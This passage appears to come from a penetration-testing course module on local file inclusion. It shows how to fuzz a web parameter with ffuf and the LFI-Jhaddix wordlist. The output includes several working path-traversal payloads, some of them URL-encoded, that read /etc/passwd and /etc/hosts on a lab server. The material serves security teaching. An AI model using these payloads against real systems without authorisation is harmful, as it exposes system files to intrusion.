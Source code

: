 **Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters).

* * *

## LFI wordlists

So far in this module, we have been manually crafting our LFI payloads to test for LFI vulnerabilities. This is because manual testing is more reliable and can find LFI vulnerabilities that may not be identified otherwise, as discussed earlier. However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities.

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module, as follows:

```shell
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]

```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.
